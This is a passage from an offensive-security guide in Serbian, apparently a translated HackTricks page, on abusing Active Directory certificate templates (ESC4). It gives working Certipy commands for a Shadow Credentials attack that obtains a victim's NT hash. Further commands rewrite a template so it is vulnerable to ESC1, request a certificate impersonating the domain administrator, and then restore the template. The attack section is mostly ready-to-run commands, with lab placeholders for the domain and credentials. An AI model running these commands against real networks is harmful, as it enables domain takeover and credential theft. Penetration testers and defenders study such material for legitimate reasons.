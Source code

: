 ### Zloupotreba

Primer eskalacije privilegija kao prethodni:

<figure><img src="../../../.gitbook/assets/image (15) (2).png" alt=""><figcaption></figcaption></figure>

ESC4 je kada korisnik ima privilegije za pisanje nad šablonom sertifikata. Na primer, to se može zloupotrebiti za prepisivanje konfiguracije šablona sertifikata kako bi se šablon učinio ranjivim na ESC1.

Kao što možemo videti u putanji iznad, samo `JOHNPC` ima ove privilegije, ali naš korisnik `JOHN` ima novu vezu `AddKeyCredentialLink` sa `JOHNPC`. Pošto je ova tehnika povezana sa sertifikatima, takođe sam implementirao i ovaj napad, koji je poznat kao [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab). Evo male snežne pahuljice Certipy-jeve komande `shadow auto` za dobijanje NT hash-a žrtve.

```bash
certipy shadow auto 'corp.local/john:Passw0rd!@dc.corp.local' -account 'johnpc'
```

**Certipy** može prebrisati konfiguraciju šablona sertifikata jednom komandom. Podrazumevano, Certipy će prebrisati konfiguraciju kako bi je učinio podložnom za ESC1. Takođe možemo navesti parametar `-save-old` da bismo sačuvali staru konfiguraciju, što će biti korisno za vraćanje konfiguracije nakon našeg napada.

```bash
# Make template vuln to ESC1
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old

# Exploit ESC1
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC4-Test -upn administrator@corp.local

# Restore config
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -configuration ESC4-Test.json
```

## Ranjiva kontrola pristupa ranjivog PKI objekta - ESC5

### Objašnjenje
